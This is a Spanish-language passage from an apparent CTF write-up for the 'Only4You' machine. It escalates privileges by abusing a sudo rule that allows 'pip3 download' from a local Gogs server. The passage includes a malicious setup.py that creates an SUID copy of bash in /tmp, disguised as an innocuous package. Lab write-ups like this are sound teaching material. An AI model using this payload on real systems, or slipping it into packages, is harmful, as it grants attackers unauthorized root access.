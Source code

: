 ```bash
john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

¿Recuerdas el Gogs que vimos antes?, pues bueno, podemos usar el comando `pip download` para bajarnos de ahí cualquier tar.gz que haya en un repositorio; este comando de pip busca por un `setup.py` en el archivo para analizarlo, al analizarlo obviamente ejecuta código asi que, si logramos subir un proyecto pip comprimido a un repositorio del Gogs podremos ejecutar código Python como root.

Pero para esto necesitamos estar autenticados, afortunadamente las credenciales que obtuvimos antes funcionan acá también, se reutilizan.

![Gogs](/assets/writeups/only4you/6.png)

Hay un repositorio llamado test el cual nos pertenece, vamos a crear un simple `setup.py` malicioso con el siguiente contenido, para luego comprimirlo y subirlo

```python
import setuptools
import os

os.system("cp /bin/bash /tmp/a && chmod u+s /tmp/a")

setuptools.setup(
    name="uwu",
    description="Nothing OwO",
    version="1.0.0",
    author="nobody"
)
```

